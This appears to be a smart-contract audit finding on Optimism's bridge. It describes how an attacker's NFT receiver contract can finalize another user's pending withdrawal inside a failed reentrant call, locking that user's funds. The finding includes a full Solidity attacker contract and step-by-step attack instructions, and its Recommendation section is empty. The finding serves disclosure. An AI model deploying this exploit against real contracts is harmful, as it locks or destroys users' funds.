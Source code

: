 Bauer

high

# Bad actors can call the `finalizeWithdrawalTransaction()` function in the NFT fallback function to lock user's funds

## Summary
Bad actors can call the `finalizeWithdrawalTransaction()` function in the NFT fallback function to lock user's funds.

## Vulnerability Detail
Let me show how a bad actor lock user's funds.

1.Bob calls the `bridgeERC721To()` function to bridge an NFT from L2 to L1.
Bob's contract for receiving NFT on L1 is implemented as follows.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

struct WithdrawalTransaction {
   uint256 nonce;
   address sender;
   address target;
   uint256 value;
   uint256 gasLimit;
   bytes data;
}

interface IOptimismPortal {
   function finalizeWithdrawalTransaction(WithdrawalTransaction memory _tx) external;     
}

contract BobContract {
   bytes metaData;
   address optimismPortalAddress;
   bool opt;

    constructor(address _optimismPortal) {
       optimismPortalAddress = _optimismPortal;
    }

    function setOpt(bool v,WithdrawalTransaction memory _tx) external{
        opt = v;
        metaData = abi.encodeWithSelector(
           IOptimismPortal.finalizeWithdrawalTransaction.selector,
           _tx
       );
   }
    function onERC721Received(address, address, uint256, bytes memory) public pure  returns (bytes4) {
        if (opt)
        {
             optimismPortalAddress.call(metaData);
        }else
        {
           revert("ERROR");
        }

        return this.onERC721Received.selector;
    }

}

```
2. After challenge period and validation passed, the protocol tries to transfer NFT to Bob on L1  during relaying the message. Then  the function `onERC721Received()` is triggered, since the `opt` is false, the transaction will fail. And the protocol will set `failedMessages[versionedHash] = true`.
3. After a while, Bob noticed that Alice was withdrawing a large amount of funds from L2 to L1. Due to a challenge period, she is waitting for finishing to finalize it.
4. Bob calls his contract `setOpt()` to set the opt to true and Alice withdraw tx. Once the challenge period has passed, Bob calls the `relayMessage()` function to get his NFT.
```solidity
    function setOpt(bool v,WithdrawalTransaction memory _tx) external{
        opt = v;
        metaData = abi.encodeWithSelector(
           IOptimismPortal.finalizeWithdrawalTransaction.selector,
           _tx
       );
   }

```
5.When the `onERC721Received()` is triggered,Bob's contract will call ` optimismPortalAddress.call()` to finalize Alice's transaction. The transaction will fail at ` if (reentrancyLocks[versionedHash]) {`
```solidity
  // Check if the reentrancy lock for the `versionedHash` is already set.
        if (reentrancyLocks[versionedHash]) {
            revert("ReentrancyGuard: reentrant call");
        }
        // Trigger the reentrancy lock for `versionedHash`
        reentrancyLocks[versionedHash] = true;

```
6.Since the `relayMessage()` function does not handle the error msg, transaction will be finished successfully. However, thevaluefinalizedWithdrawals[withdrawalHash] = true` value set to true in the `finalizeWithdrawalTransaction()` function. And Alice will not able to relay the message again. Her funds will be locked in the contract.
```solidity
   xDomainMsgSender = _sender;
        bool success = SafeCall.callWithMinGas(_target, _minGasLimit, _value, _message);
        xDomainMsgSender = Constants.DEFAULT_L2_SENDER;


```


## Impact
User's funds can be locked in the contract.
## Code Snippet
https://github.com/sherlock-audit/2023-03-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L361
https://github.com/sherlock-audit/2023-03-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/L1/OptimismPortal.sol#L377-L383
## Tool used

Manual Review

## Recommendation


